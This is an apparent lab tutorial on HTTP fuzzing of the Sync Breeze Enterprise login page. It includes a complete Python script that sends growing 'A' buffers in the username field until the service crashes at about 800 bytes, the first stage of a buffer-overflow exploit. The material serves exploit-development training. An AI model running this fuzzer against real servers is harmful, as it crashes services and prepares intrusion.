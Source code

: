 # Fuzzing

Fuzzing is a reverse engineering technique used to find places in the code where unhandled input can be provided, leading to an application crash or other behavior which can be further exploited.

## HTTP Fuzzing - SyncBreeze
## Gathering Input Data for a Seed

We open the Sync Breeze Enterprise server on our test machine and navigate to the Sync Breeze web portal:

![sync breeze portal](img/screen1.png)

We attempt to login using invalid credentials and capture the response in wireshark. We analyze the TCP stream and find our login request:

![login](img/screen2.png)
![req](img/screen3.png)

## First Fuzzer POC

The following Python script fuzzes the username parameter of the page by sending an increasingly large payload every iteration until it reaches 2000 bytes of lenght.

```
#!/usr/bin/python3
import socket
import time
import sys
size = 100

while(size < 2000):
    try:
        print("\nSending evil buffer with %s bytes" % size)
        inputBuffer = "A" * size
        content = "username=" + inputBuffer + "&password=A"
        buffer = "POST /login HTTP/1.1\r\n"
        buffer += "Host: 10.11.0.22\r\n"
        buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
        buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
        buffer += "Accept-Language: en-US,en;q=0.5\r\n"
        buffer += "Referer: http://192.168.138.10/login\r\n"
        buffer += "Connection: close\r\n"
        buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
        buffer += "Content-Length: "+str(len(content))+"\r\n"
        buffer += "\r\n"
        buffer += content
        s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("10.11.0.22", 80))
        s.send(buffer)
        s.close()
        size += 100
        time.sleep(10)
    except:
        print("\nCould not connect!")
        sys.exit()
```

Running the script crashes the application at around 800 bytes:

![crash](img/screen5.png)


